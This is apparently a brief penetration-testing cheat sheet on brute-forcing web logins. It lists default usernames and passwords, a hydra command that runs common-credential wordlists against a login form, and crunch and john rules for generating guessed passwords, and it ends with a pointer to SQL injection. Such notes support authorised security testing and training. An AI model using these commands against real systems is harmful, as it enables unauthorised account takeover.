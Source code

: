 # brute forcing

- Try software default credentials
- Try the following usernames

```shell
admin
root
software-name (e.g. cms)
```

- Try the following passwords

```shell
root
password
```

- Brute force using most common credentials

```shell
cp /usr/share/seclists/Usernames/top-usernames-shortlist.txt users.txt
cp /usr/share/seclists/Passwords/darkweb2017-top100.txt passwords.txt
hydra -L users.txt -P passwords.txt $ip http-post-form "/login:username=^USER^&password=^PASS^:error message."
```
- Brute force using educated passwords. Create list using `crunch` or `john`.

```shell
crunch 9 9 -t "Fall202%^" -o crunch.txt
```

```shell
└─$ tail -n 2 /etc/john/john.conf
[List.Rules:a3cipher]
Az"[0-9][0-9]" ^[!@]

john --wordlist=words.txt --rules=a3cipher --stdout > passwords.txt
```
- Try SQL injection
